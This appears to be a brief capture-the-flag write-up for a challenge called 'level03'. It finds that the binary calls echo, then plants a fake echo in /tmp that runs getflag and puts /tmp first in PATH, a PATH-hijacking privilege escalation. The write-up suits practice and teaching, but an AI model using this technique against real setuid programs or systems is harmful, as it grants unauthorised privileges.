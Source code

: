 # Level 03

## step 1 : analyze level03
```
$ strings level03
```
we can see that level03 uses the echo command

## step 2 : create a fake echo command that will run getflag
```
$ echo "/bin/getflag" > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH="/tmp:$PATH"
```

## step 3 : execute level03
```
$ ./level03
```
